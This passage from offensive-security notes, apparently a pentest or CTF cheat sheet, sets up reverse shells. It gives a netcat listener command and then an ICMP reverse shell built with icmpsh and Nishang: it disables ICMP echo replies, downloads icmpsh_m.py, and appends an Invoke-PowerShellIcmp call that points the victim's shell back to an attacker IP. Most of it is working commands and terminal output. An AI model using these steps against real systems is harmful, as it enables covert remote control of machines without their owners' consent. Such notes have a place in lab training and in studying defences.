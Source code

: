 Then receive the reverse shell connection:

```
sudo nc -lvnp 443
```

### ICMP with Nishang + ICMPsh

```
.EXAMPLE
# sysctl -w net.ipv4.icmp_echo_ignore_all=1
# python icmpsh_m.py 192.168.254.226 192.168.254.1

Run above commands to start a listener on a Linux computer (tested on Kali Linux).
icmpsh_m.py is a part of the icmpsh tools.
```

```
❯ sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
[sudo] password for kali:
net.ipv4.icmp_echo_ignore_all = 1
```

{% embed url="https://github.com/bdamele/icmpsh/blob/master/icmpsh_m.py" %}

We can download this script:

```
❯ wget https://raw.githubusercontent.com/bdamele/icmpsh/master/icmpsh_m.py
--2021-08-04 09:42:08--  https://raw.githubusercontent.com/bdamele/icmpsh/master/icmpsh_m.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4451 (4.3K) [text/plain]
Saving to: ‘icmpsh_m.py’

icmpsh_m.py                                                100%[=======================================================================================================================================>]   4.35K  --.-KB/s    in 0s

2021-08-04 09:42:09 (64.5 MB/s) - ‘icmpsh_m.py’ saved [4451/4451]
```

Check if it runs correctly:

```
❯ python icmpsh_m.py
missing mandatory options. Execute as root:
./icmpsh-m.py <source IP address> <destination IP address>
```

Add your IP address at the end of the file:

```
❯ tail -n 1 Invoke-PowerShellIcmp.ps1
Invoke-PowerShellIcmp -IPAddress 10.10.16.185
```
